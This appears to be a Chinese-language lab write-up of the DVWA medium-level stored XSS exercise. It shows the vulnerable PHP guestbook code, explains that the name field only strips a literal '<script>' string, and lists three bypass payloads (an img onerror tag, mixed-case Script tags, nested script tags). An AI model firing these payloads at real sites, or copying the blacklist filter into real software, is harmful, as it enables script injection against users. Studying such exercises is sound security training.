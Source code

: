 

----------

2.Medium Stored XSS Source

- 漏洞代码

    	<?php
			if( isset( $_POST[ 'btnSign' ] ) ) {
			    // Get input
			    $message = trim( $_POST[ 'mtxMessage' ] );
			    $name    = trim( $_POST[ 'txtName' ] );
			
			    // Sanitize message input
			    $message = strip_tags( addslashes( $message ) );
			    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			    $message = htmlspecialchars( $message );
			
			    // Sanitize name input
			    $name = str_replace( '<script>', '', $name );
			    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
			
			    // Update database
			    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
			    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
			
			    //mysql_close();
			} 
    
    	?> 




- 分析与利用

	`$message = htmlspecialchars( $message )`  # `message` 对用户输入数据进行编码转换，因此不存在xss漏洞
		
	`$name = str_replace( '<script>', '', $name );`  # `str_replace`方法把`<script>`替换为空,存在三种方法绕过
	

- 构造payload

	**1.非`<script>`标签**

	`<img src=0 onerror=alert(/xss1/)>`

	**2.大小写转换**
		
    `<Script>alert(/xss2/)</sCript>`

	**3.双重`<script>`标签**

    `<sc<script>ript>alert(/xss3/)</script>`
